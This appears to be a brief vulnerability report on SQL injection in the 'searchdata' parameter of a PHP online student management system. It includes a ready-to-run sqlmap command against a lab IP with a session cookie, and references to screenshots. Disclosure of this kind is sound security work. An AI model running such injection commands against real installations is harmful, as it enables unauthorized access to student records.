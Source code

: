 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html

Vulnerability trigger parameter: $searchdata

The process of vulnerability discovery is as follows：

![image-20230223154600825](C:\markdown\images\image-20230223154600825.png)

exp

```
sqlmap.py -u "http://192.168.31.50/eduauth/student/search.php" --data "searchdata=1&search=" --cookie "PHPSESSID=po9tmu5iqkuvffteh4b6rur4g0"
```

![image-20230223154359329](C:\markdown\images\image-20230223154359329.png)
